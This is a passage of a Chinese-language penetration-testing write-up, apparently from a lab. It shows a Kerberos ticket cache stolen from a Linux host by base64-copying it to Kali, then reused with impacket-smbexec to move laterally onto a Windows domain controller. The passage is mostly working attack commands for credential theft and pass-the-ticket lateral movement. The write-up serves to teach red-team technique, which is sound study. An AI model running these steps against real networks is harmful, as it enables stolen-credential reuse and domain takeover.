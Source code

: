 票据不大，我们直接 base64 编码复制出来：

```bash
base64 /tmp/krb5cc_285400500_xkhemD | tr -d '\n'
```

[![](assets/1707953845-387d7959066123ba7254c3a80b215701.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240206040009-2a664906-c461-1.png)

在 kali 重新解码生成原始票据文件：

```bash
echo '刚刚拿到的编码'  | base64 -d > krb5cc_285400500_xkhemD
```

之后直接利用 impacket-smbexec 横向移动到 windows 域控制器，执行命令看看是否有问题

```bash
KRB5CCNAME='krb5cc_285400500_xkhemD'  /usr/bin/impacket-smbexec -target-ip 192.168.43.136 -dc-ip 192.168.43.136 -k  -no-pass @'ad.endlessparadox.com'
```

[![](assets/1707953845-b6890c210ddc02272e6a67925a88ca65.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240206040023-328f24e0-c461-1.png)
